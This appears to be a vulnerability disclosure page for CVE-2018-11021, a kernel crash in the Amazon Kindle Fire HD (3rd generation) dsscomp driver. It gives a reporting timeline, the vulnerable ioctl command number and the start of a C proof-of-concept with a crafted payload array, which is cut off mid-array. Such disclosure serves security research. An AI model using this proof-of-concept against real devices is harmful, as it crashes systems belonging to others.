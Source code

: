 # CVE-2018-11021
These page show one of the practical CVEs that Found. I reported these bugs to Security@amazon.com on On 5/11/2018 and now I have been told they have repaired the bugs and the details can be published. However,  Amazon does not have an advisory page at the moment. I think it is a must to list the detailed infomation here.
## Time Line
 * 5/11/2018 Bugs were reported to Security@amazon.com.
 * 06/27/2018 Amazon got confirmation that CVE-2018-11021 could cause kernel crash.
 * 09/18/2018 Amazon had started updating our FireOS 4 devices with the security patches.
 

 ## CVE-2018-11021
 ### Abstract
 
* Name: Amazon Kindle Fire HD (3rd Generation) Kernel DoS
* Date: 2018-10-10
* Reporter: Shuaibing Lu
* Vendor: http://www.amazon.com/
* Software Link: https://fireos-tablet-src.s3.amazonaws.com/46sVcHzumgrjpCXPHw6oygKVmw/kindle_fire_7inch_4.5.5.3.tar.bz2
* Version: Fire OS 4.5.5.3
### Description

Kernel module /omap/drivers/video/omap2/dsscomp/device.c in the kernel component in Amazon Kindle Fire HD(3rd) Fire OS 4.5.5.3 allows attackers to inject a crafted argument via the argument of an ioctl on device /dev/dsscomp with the command **1118064517** and cause a kernel crash.

To explore this vulnerability, some one must open the device file /dev/dsscomp, call an ioctl system call on this device file with the command **1118064517** and a crafted payload as the third argument.

### PoC
```
/*
 * This is poc of Kindle Fire HD 3rd
 * A bug in the ioctl interface of device file /dev/dsscomp causes the system crash via IOCTL 1118064517.
 * Related buggy struct name is dsscomp_setup_dispc_data.
 * This Poc should run with permission to do ioctl on /dev/dsscomp.
 *
 */
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = "/dev/dsscomp";
static command = 1118064517; 

int main(int argc, char **argv, char **env) {
    unsigned int payload[] = {
    0xffffffff,
    0x00000003,
    0x5d200040,
    0x79900008,
    0x8f5928bd,
    0x78b02422,
    0x00000000,
    0xffffffff,
    0xf4c50400,
    0x007fffff,
```